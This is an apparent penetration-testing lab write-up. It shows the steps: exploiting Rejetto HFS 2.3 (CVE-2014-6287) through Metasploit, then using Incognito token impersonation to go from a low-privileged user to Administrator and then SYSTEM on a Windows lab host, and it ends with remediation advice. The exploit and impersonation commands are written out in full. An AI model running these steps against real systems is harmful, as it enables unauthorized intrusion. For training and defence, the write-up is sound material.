# Privilege Escalation: Impersonate

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (10.2.17.148) — ATTACKDEFENSE, Windows Server 2019<br>
**Attacker:** 10.10.49.2 (Kali)<br>
**Flag:** `x28c832a39730b7d46d6c38f1ea18e12`

## 1. Executive Summary

The target runs **Rejetto HTTP File Server 2.3**, vulnerable to CVE-2014-6287. We exploit it
for a Meterpreter session running as a low-privileged user that can't migrate. By loading
**Incognito** and abusing `SeImpersonatePrivilege`, we impersonate an available delegation
token (`ATTACKDEFENSE\Administrator`), then escalate further to `NT AUTHORITY\SYSTEM` and
read the flag from the Administrator's desktop.

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV 10.2.17.148
```



Port 80 runs **HttpFileServer httpd 2.3** (Rejetto HFS).





## 3. Exploiting Rejetto HFS

```bash
# set global RHOSTS / LHOST
search rejetto
use exploit/windows/http/rejetto_hfs_exec
```





```bash
exploit
```



## 4. Low-Privilege Context

Migration fails — the session user lacks the rights.

```bash
sysinfo
pgrep explorer
migrate 3308        # Operation failed: Access is denied
```



## 5. Token Impersonation (Incognito)

Loading Incognito and listing tokens reveals an available **delegation token** for the
Administrator (the result of an interactive logon).

```bash
load incognito
list_tokens -u
```



Impersonating the Administrator token.

```bash
impersonate_token "ATTACKDEFENSE\Administrator"
```



Now running as Administrator with a full privilege set, including `SeImpersonatePrivilege`.

```bash
getuid              # ATTACKDEFENSE\Administrator
getprivs
```



## 6. Escalating to SYSTEM

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
getuid              # NT AUTHORITY\SYSTEM
```



## 7. Capturing the Flag

```bash
cd C:\Users\Administrator\Desktop
cat flag.txt
# x28c832a39730b7d46d6c38f1ea18e12
```



## 8. Remediation Recommendations

1. **Patch/replace Rejetto HFS** — CVE-2014-6287 allows unauthenticated RCE; it is
   unmaintained.
2. **Run the web service with least privilege** and remove `SeImpersonatePrivilege` from
   service accounts that don't need it.
3. **Apply current patches** to mitigate token/"potato" impersonation escalation paths.
4. **Monitor** for Incognito-style token manipulation and unexpected service account logons.
